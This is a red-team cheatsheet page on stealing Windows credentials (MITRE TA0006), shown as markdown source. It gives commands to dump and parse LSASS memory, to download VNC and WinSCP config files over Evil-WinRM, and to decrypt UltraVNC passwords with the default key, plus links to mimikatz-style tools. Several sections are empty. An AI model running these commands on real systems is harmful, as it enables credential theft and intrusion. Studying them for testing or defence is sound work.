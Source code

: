 ```yaml
---
layout: post
title: TA0006 Credentials Steal - Windows
category: pen
parent: cheatsheets
modified_date: 2023-06-08
permalink: /pen/win/creds
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
* [dumps](#dumps)
	* [lsass](#lsass)
		* [lsass-dump](#lsass-dump)
		* [lsass-extract](#lsass-extract)
	* [ntds.dit](#ntds.dit)
	* [sam](#sam)
* [schtasks](#schtasks)
* [softwares](#softwares)
	* [auto](#auto)
	* [chrome](#chrome)
	* [mremoteng](#mremoteng)
	* [xvnc](#xvnc)
	* [winscp](#winscp)
	* [putty](#putty)
	* [browsers](#browsers)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='tools'></a>tools

Multi-features Hacking Tools :

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='dumps'></a>dumps

* [T1003 - OS credentials dumping](https://attack.mitre.org/techniques/T1003/001/)

### <a name='lsass'></a>lsass

#### <a name='lsass-dump'></a>lsass-dump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

#### <a name='lsass-extract'></a>lsass-extract
```
pypykatz lsa minidump lsass.dmp -k /tmp/krb > output.txt
```

### <a name='ntds.dit'></a>ntds-dit
### <a name='ntds.dit'></a>ntds-dit-dump


### <a name='sam'></a>sam
- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## regkeys
[T1552.002](https://attack.mitre.org/techniques/T1552/002/)
```sh
Software\SimonTatham\Putty\Sessions
```

## <a name='schtasks'></a>schtasks

## <a name='softwares'></a>softwares

### <a name='auto'></a>auto

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='chrome'></a>chrome
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

### <a name='mremoteng'></a>mremoteng

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xvnc'></a>xvnc

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```sh
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```sh
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='winscp'></a>winscp

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```sh
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```
[reverse-pwd](https://www.jonaslieb.com/blog/2012/12/23/reversing-the-winscp-session-password-encryption.html)

### <a name='putty'></a>putty

### <a name='browsers'></a>browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## sources

* [synacktiv](https://www.synacktiv.com/publications/windows-secrets-extraction-a-summary) / 20-04-2023
